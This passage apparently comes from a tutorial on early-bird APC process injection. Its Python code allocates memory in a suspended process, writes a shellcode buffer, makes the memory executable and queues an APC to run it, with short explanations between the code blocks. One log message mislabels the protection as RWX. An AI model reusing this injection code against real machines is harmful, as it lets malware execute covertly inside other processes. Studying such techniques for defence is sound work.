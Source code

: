 ```python

logger.info("Started process '{}' HANDLE: {} PID: {} TID: {}"
    .format(INJECT_NAME, h_process, process_id, thread_id)
)
```

__Memory Allocation and Shellcode Writing__

With the suspended process created, we allocate memory for the shellcode and prepare it for execution. This involves allocating memory with initial _read-write_ permissions, writing the shellcode, and then changing the memory protection to allow execution.

```python
memory_addr = VirtualAllocEx(
    h_process,
    False,
    buf_size,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_READWRITE,
)
logger.info("Allocated {} bytes to PID: {} at {}"
    .format(buf_size, process_id, hex(memory_addr))
)

WriteProcessMemory(
    h_process,
    memory_addr,
    buf,
    buf_size,
    None
)
logger.info("Wrote {} bytes to PID: {} at {}"
    .format(buf_size, process_id, hex(memory_addr))
)

VirtualProtectEx(
    h_process,
    memory_addr,
    buf_size,
    PAGE_EXECUTE_READ,
    byref(wintypes.DWORD(0))
)
logger.info("Updated memory protection for {} to RWX"
    .format(hex(memory_addr))
)
```

__APC Queue and Thread Resume__

The final phase leverages the _Asynchronous Procedure Call_ mechanism to execute the shellcode. By queuing an APC that points to our shellcode and resuming the suspended thread, we ensure code execution when the thread begins running.

```python
QueueUserAPC(
    PAPCFUNC(memory_addr),
    h_thread,
    None
)
logger.info("Queued APC thread. HANDLE: {} PID: {}"
    .format(h_thread, process_id)
)

ResumeThread(
    h_thread
)
```